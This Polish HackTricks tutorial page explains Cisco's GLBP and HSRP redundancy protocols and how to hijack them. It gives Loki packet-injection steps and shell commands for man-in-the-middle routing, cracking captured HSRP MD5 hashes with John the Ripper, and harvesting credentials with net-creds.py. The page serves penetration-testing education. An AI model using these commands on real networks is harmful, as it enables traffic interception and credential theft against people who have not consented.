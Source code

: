 # Ataki GLBP i HSRP

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Przegląd Przechwytywania FHRP

### Wgląd w FHRP
FHRP został zaprojektowany w celu zapewnienia odporności sieci poprzez połączenie wielu routerów w jednostkę wirtualną, co zwiększa dystrybucję obciążenia i tolerancję na awarie. Cisco Systems wprowadził prominentne protokoły w tej grupie, takie jak GLBP i HSRP.

### Wgląd w Protokół GLBP
Stworzony przez Cisco, GLBP działa na stosie TCP/IP, wykorzystując UDP na porcie 3222 do komunikacji. Routery w grupie GLBP wymieniają pakiety "hello" co 3 sekundy. Jeśli router nie wyśle tych pakietów przez 10 sekund, uznaje się go za offline. Jednak te timery nie są stałe i mogą być modyfikowane.

### Operacje i Dystrybucja Obciążenia w GLBP
GLBP wyróżnia się umożliwieniem dystrybucji obciążenia między routerami za pomocą jednego wirtualnego IP w połączeniu z wieloma wirtualnymi adresami MAC. W grupie GLBP każdy router bierze udział w przekazywaniu pakietów. W odróżnieniu od HSRP/VRRP, GLBP oferuje rzeczywiste równoważenie obciążenia poprzez kilka mechanizmów:

- **Równoważenie Obciążenia Zależne od Hosta:** Zapewnia stałe przypisanie adresu MAC AVF do hosta, co jest istotne dla stabilnych konfiguracji NAT.
- **Równoważenie Obciążenia Round-Robin:** Domyślne podejście, polegające na zmianie przypisania adresu MAC AVF między żądającymi hostami.
- **Równoważenie Obciążenia Ważone Round-Robin:** Dystrybuuje obciążenie na podstawie zdefiniowanych metryk "Waga".

### Kluczowe Składniki i Terminologia w GLBP
- **AVG (Aktywna Wirtualna Bramka):** Główny router odpowiedzialny za przydzielanie adresów MAC do routerów równorzędnych.
- **AVF (Aktywny Wirtualny Przekierowujący):** Router wyznaczony do zarządzania ruchem sieciowym.
- **Priorytet GLBP:** Metryka określająca AVG, zaczynająca się od domyślnego wartości 100 i wahająca się od 1 do 255.
- **Waga GLBP:** Odzwierciedla obecne obciążenie routera, regulowane ręcznie lub poprzez Śledzenie Obiektów.
- **Wirtualny Adres IP GLBP:** Służy jako domyślna brama sieciowa dla wszystkich podłączonych urządzeń.

Do interakcji GLBP używa zarezerwowanego adresu multicastowego 224.0.0.102 i portu UDP 3222. Routery wysyłają pakiety "hello" co 3 sekundy i uważane są za nieoperacyjne, jeśli pakiet zostanie pominięty przez okres 10 sekund.

### Mechanizm Ataku GLBP
Atakujący może stać się głównym routerem, wysyłając pakiet GLBP z najwyższą wartością priorytetu (255). Może to prowadzić do ataków typu DoS lub MITM, umożliwiając przechwytywanie lub przekierowywanie ruchu.

### Wykonanie Ataku GLBP za pomocą Loki
[Loki](https://github.com/raizo62/loki_on_kali) może przeprowadzić atak GLBP poprzez wstrzyknięcie pakietu z ustawionym priorytetem i wagą na 255. Kroki przed atakiem obejmują zbieranie informacji, takich jak wirtualny adres IP, obecność uwierzytelnienia i wartości priorytetu routera za pomocą narzędzi takich jak Wireshark.

Kroki Ataku:
1. Przełącz się w tryb promiskuitywny i włącz przekazywanie IP.
2. Zidentyfikuj docelowy router i pobierz jego IP.
3. Wygeneruj ARP Gratuitous.
4. Wstrzyknij złośliwy pakiet GLBP, podszywając się pod AVG.
5. Przypisz drugi adres IP do interfejsu sieciowego atakującego, odzwierciedlając wirtualny adres IP GLBP.
6. Wdroż SNAT dla pełnej widoczności ruchu.
7. Dostosuj trasowanie, aby zapewnić ciągły dostęp do internetu poprzez oryginalny router AVG.

Śledząc te kroki, atakujący pozycjonuje się jako "człowiek pośrodku", zdolny do przechwytywania i analizowania ruchu sieciowego, w tym danych niezaszyfrowanych lub wrażliwych.

Dla celów demonstracyjnych, oto wymagane fragmenty poleceń:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Pasywne wyjaśnienie przechwytywania HSRP z szczegółami poleceń

#### Przegląd HSRP (Hot Standby Router/Redundancy Protocol)
HSRP to protokół własnościowy firmy Cisco zaprojektowany do zapewnienia redundancji bramy sieciowej. Umożliwia konfigurację wielu fizycznych routerów w pojedynczą jednostkę logiczną z wspólnym adresem IP. Ta jednostka logiczna jest zarządzana przez główny router odpowiedzialny za kierowanie ruchem. W przeciwieństwie do GLBP, który wykorzystuje metryki takie jak priorytet i waga do równoważenia obciążenia, HSRP polega na pojedynczym aktywnym routerze do zarządzania ruchem.

#### Role i Terminologia w HSRP
- **Aktywny Router HSRP**: Urządzenie pełniące rolę bramy, zarządzające przepływem ruchu.
- **Rezerwowy Router HSRP**: Router zapasowy, gotowy do przejęcia roli aktywnego routera w przypadku awarii.
- **Grupa HSRP**: Zestaw routerów współpracujących w celu utworzenia pojedynczego, odpornego wirtualnego routera.
- **Adres MAC HSRP**: Wirtualny adres MAC przypisany do routera logicznego w konfiguracji HSRP.
- **Wirtualny Adres IP HSRP**: Wirtualny adres IP grupy HSRP, działający jako domyślna brama dla podłączonych urządzeń.

#### Wersje HSRP
HSRP występuje w dwóch wersjach, HSRPv1 i HSRPv2, różniących się głównie pojemnością grupy, użyciem adresów IP multicast oraz strukturą wirtualnego adresu MAC. Protokół wykorzystuje określone adresy IP multicast do wymiany informacji usługowych, z pakietami Hello wysyłanymi co 3 sekundy. Router jest uznawany za nieaktywny, jeśli nie otrzyma pakietu w ciągu 10 sekund.

#### Mechanizm Ataku HSRP
Ataki HSRP polegają na przymusowym przejęciu roli Aktywnego Routera poprzez wstrzyknięcie maksymalnej wartości priorytetu. Może to prowadzić do ataku typu Man-In-The-Middle (MITM). Istotne kroki przed atakiem obejmują zbieranie danych na temat konfiguracji HSRP, co można zrobić za pomocą Wireshark do analizy ruchu.

#### Kroki do obejścia uwierzytelniania HSRP
1. Zapisz ruch sieciowy zawierający dane HSRP jako plik .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Wyodrębnij hashe MD5 z pliku .pcap za pomocą hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Odszyfruj hashe MD5 za pomocą John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Wykonanie Wstrzyknięcia HSRP za pomocą Loki**

1. Uruchom Loki, aby zidentyfikować reklamy HSRP.
2. Ustaw interfejs sieciowy w tryb promiskuitywny i włącz przekazywanie IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Użyj Lokiego, aby zaatakować określony router, wprowadź odszyfrowane hasło HSRP i wykonaj niezbędne konfiguracje do podszywania się pod Aktywnego Routera.
4. Po przejęciu roli Aktywnego Routera skonfiguruj interfejs sieciowy i tabele IP, aby przechwycić prawidłowy ruch.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Zmodyfikuj tabelę routingu, aby kierować ruch przez poprzedniego Aktywnego Routera.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Użyj net-creds.py lub podobnego narzędzia do przechwytywania poświadczeń z przechwyconego ruchu.
```shell
sudo python2 net-creds.py -i eth0
```

Wykonanie tych kroków umieszcza atakującego w pozycji do przechwytywania i manipulowania ruchem, podobnie jak w przypadku przejęcia GLBP. Podkreśla to podatność protokołów redundancji, takich jak HSRP, oraz potrzebę solidnych środków bezpieczeństwa.
